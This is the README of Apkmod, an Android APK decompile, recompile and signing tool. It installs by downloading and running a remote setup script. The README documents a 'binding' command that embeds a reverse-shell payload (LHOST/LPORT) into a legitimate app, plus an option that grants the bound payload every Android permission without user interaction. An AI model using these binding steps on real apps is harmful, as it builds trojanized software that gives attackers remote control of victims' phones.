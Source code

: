 # Apkmod v1.9
### Author : Lokesh @Hax4us

## _Steps For Installation_
1. First goto home directory `cd $HOME`
2. Get the setup script `wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh`
3. Execute the script `sh setup.sh`
4. Now you can execute command `apkmod`

## Usage :
1. For decompiling `apkmod -d /path/to/inapp.apk -o /path/to/outdirectory`. It will decompile __inapp.apk__ into __outdirectory__ folder.
2. For recompiling `apkmod -r /path/to/indirectory -o /path/to/outapp.apk`. It will recompile __indirectory__ ( where decompiled files are exists ) into __outapp.apk__.
3. For signing `apkmod -s /path/to/unsignedapp.apk -o /path/to/signedapp.apk`. It will sign __unsignedapp.apk__ and saves output ( signed app ) to __signedapp.apk__.
4. For binding `apkmod -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
5. Now you can use a optional option `-a` to use __aapt2__ for __binding__ and __recompiling__. Why aapt2 ? Because some apps can't recompile with __aapt__ but __aapt2__ can do it. But I can't drop __aapt__ support because some apps can't recompile with __aapt2__ so first recompile or bind without __aapt2__ ( `-a` ) then if you failed then try with __aapt2__. For example `apkmod -a -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`.
6. Use `-V` to enable verbose output
7. If only editing Java (smali) then this is the recommended action for faster decompile & rebuild `--no-res`
8. If you are only editing the resources. This is the recommended action for faster disassemble & assemble `--no-smali`
9. use `--frame-path` to specify framework directory like `--frame-path=/path/to/dir` 
10. Use `--enable-perm` to enable all android permissions in binded or non binded payloads without user interaction. For example :- `apkmod --enable-perm=/path/to/binded.apk -o mybinded.apk`
### Size Comparision
Size  | Apkmod  | Third party tools
--- | --- | ---
after installation | Around 100 MB | Around 700-900 MB

#### Why Apkmod is extremely small ?
Because it has Alpine instead of Ubuntu, kali, parrot or other glibc based distros.
